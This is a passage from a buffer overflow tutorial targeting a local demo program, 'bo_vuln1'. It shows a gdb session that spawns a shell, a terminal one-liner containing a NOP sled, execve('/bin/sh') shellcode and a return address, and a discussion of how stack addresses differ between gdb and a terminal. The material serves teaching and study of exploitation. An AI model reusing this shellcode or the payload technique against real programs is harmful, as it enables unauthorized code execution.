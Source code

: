 The buffer starts with the NOP-sled followed by the shellcode and padding junk. `ret` (on the last line) points inside the NOP-sled.

Now, delete all breakpoints, and continue the execution:

```bash
(gdb) d
(gdb) c
Continuing.
process 11057 is executing new program: /usr/bin/bash
sh-4.4$ 
```

We got a shell!

Next, we'll leave gdb and try to exploit the program in a terminal.

### Getting a shell in a terminal

Run the program with the same input as given in gdb:

```bash
$ ./bo_vuln1 `python -c 'print 30 * "\x90" + "\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05" + 17 * "a" + 8 * "b" + "\xa8\xd5\xff\xff\xff\x7f"'`
Segmentation fault (core dumped)
```

A failure!

This happens because gdb and various terminals have a different number of environment variables resulting in non-equal stack addresses. Environment variables push the stack higher towards lower addresses.

We got two choices:

1) Keep guessing the ret address until we hit our NOP-sled.
2) Make sure gdb and terminals have the same stack addresses.

Choice number 1 will can be tedious since our program has a pretty small NOP-sled.

Choice number 2 is more interesting. The following program will be used to illustrate the differences in the stack addresses:

```c
/*
 * address.c
 * gcc address.c -o address -std=c99
 */

#include <stdio.h>

int main()
{
    int buffer[50];
    printf("Address of buffer: %p\n", (void *)&buffer);
}
```
